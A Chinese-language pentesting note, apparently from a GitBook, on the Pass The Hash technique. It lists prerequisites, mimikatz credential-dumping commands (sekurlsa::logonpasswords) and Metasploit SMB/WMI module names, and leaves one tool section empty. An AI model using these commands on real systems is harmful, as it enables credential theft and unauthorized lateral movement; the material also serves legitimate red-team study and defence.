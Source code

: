 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码 / 较旧的且使用NTLM协议的系统
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 需要找到目标用户账户的NTLM哈希
* 目标域名
* 目标系统必须支持SMB / WMI / RPC 等远程认证协议

## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 权限提升
privilege::debug

sekurlsa::logonpasswords full
```

### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### Crackmapexec

```bash
# 
```



### Metasploit

```bash
# psexec模块
use exploit/windows/smb/psexec
# wmiexec模块
use auxiliary/admin/smb/wmiexec
# smb_login模块
use auxiliary/scanner/smb/smb_login
# smbexec模块
use exploit/windows/smb/smbexec
```



{% hint style="info" %}
哈希传递攻击分为针对本地用户账户和域用户账户，通过抓取目标用户的NTLM哈希来绕过明文密码登录，其本质就是冒充特定的用户账户。
{% endhint %}
